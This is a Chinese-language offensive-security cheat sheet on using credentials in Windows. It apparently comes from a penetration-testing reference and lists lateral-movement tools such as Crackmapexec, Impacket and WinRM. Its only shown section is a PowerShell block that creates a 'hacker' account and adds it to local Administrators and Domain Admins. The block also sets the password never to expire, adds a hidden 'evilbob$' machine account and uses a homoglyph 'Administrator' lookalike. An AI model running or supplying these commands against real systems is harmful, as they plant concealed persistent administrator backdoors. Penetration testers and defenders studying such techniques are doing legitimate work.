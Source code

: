 # Windows - 使用凭据

## 摘要

* [获取凭据](#get-credentials)
  * [创建您的凭据](#create-your-credential)
  * [访客凭据](#guest-credential)
  * [零售凭据](#retail-credential)
  * [沙盒凭据](#sandbox-credential)
* [Crackmapexec](#crackmapexec)
* [Impacket](#impacket)
  * [PSExec](#psexec)
  * [WMIExec](#wmiexec)
  * [SMBExec](#smbexec)

* [RDP 远程桌面协议](#rdp-remote-desktop-protocol)
* [Powershell 远程协议](#powershell-remoting-protocol)
  * [Powershell 凭据](#powershell-credentials)
  * [Powershell PSSESSION](#powershell-pssession)
  * [Powershell 安全字符串](#powershell-secure-strings)
* [SSH 协议](#ssh-protocol)
* [WinRM 协议](#winrm-protocol)
* [WMI 协议](#wmi-protocol)

* [其他方法](#other-methods)
  * [PsExec - Sysinternal](#psexec-sysinternal)
  * [挂载远程共享](#mount-a-remote-share)
  * [以其他用户身份运行](#run-as-another-user)

## 获取凭据

### 创建您的凭据

```powershell
net user hacker Hcker_12345678* /add /Y
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add # RDP 访问权限
net localgroup "Backup Operators" hacker /add # 对文件的完全访问权限
net group "Domain Admins" hacker /add /domain

# 启用域用户账户
net user hacker /ACTIVE:YES /domain

# 防止用户更改密码
net user username /Passwordchg:No

# 防止密码过期
net user hacker /Expires:Never

# 创建机器账户（在 net users 中不显示）
net user /add evilbob$ evilpassword

# 同形异义词 Aԁmіnistratοr（与 Administrator 不同）
Aԁmіnistratοr
```
